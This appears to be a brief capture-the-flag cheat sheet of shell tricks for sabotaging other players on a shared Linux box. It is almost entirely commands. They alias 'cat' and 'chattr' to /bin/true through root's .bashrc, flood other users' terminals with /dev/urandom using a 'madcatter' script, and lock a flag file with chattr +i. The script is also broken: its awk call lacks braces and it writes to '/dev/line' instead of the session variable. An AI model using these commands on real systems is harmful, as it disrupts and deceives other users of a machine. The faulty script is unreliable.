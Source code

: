 

Nerf `chattr` for other players
```bash
echo "alias chattr='/bin/true'" >> /root/.bashrc
```


Nerf `cat` for other players
```bash
echo "alias cat='/bin/true'" >> /root/.bashrc
```

Madcatter trick
```bash
# identify other TTY session(s)
w

# madcatter.sh
#!/bin/bash
USER=$(tty | cut -c 6-)
w | grep -v "$USER" | grep pts | awk 'print $2' | while read line
do
    cat /dev/urandom > /dev/line &
done
```

Make file readonly
```bash
# privs required
chattr +i flag.txt
```
